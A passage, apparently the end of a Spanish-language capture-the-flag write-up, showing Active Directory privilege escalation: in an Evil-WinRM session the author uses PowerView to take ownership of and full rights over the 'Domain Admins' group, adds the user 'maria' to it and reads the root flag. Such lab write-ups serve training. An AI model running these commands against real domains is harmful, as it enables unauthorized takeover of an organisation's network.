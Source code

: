 ```null
```

Como este usuario tiene WriteOwner sobre ```Domain Admins```, puedo hacerme propietario de este objeto para añadirme al grupo y convertirme en Administrador del Dominio

```null
*Evil-WinRM* PS C:\Temp> Import-Module .\PowerView.ps1
*Evil-WinRM* PS C:\Temp> Set-DomainObjectOwner -Identity "Domain Admins" -OwnerIdentity maria
*Evil-WinRM* PS C:\Temp> Add-DomainObjectAcl -TargetIdentity "Domain Admins" -Rights All -PrincipalIdentity maria
*Evil-WinRM* PS C:\Users\maria\Documents> net group "Domain Admins" maria /add /domain
The command completed successfully.
```

Puedo visualizar la segunda flag

```null
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
5f0f08c36d3293e182cb179811f76238
```